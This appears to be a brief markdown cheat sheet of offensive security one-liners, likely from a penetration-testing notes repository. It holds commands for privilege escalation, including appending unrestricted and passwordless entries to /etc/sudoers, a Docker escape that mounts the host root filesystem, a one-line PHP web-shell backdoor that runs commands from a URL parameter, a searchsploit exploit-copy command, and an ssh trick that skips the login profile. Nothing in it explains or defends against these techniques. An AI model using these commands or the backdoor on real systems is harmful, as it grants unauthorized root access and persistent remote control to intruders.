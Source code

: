 # privilege escalation
```
getcap -r / 2>/dev/null
```

```
echo "user ALL=(ALL:ALL) ALL" >> /etc/sudoers;
```

```
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers;
```
# docker
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
# backdoor
```
<?php system($_GET['cmd']);?>
```

# searchsploit
## copy current directory
```
searchsploit -m file
```

# ssh
```
ssh user@expample.com -t "bash --noprofile"
```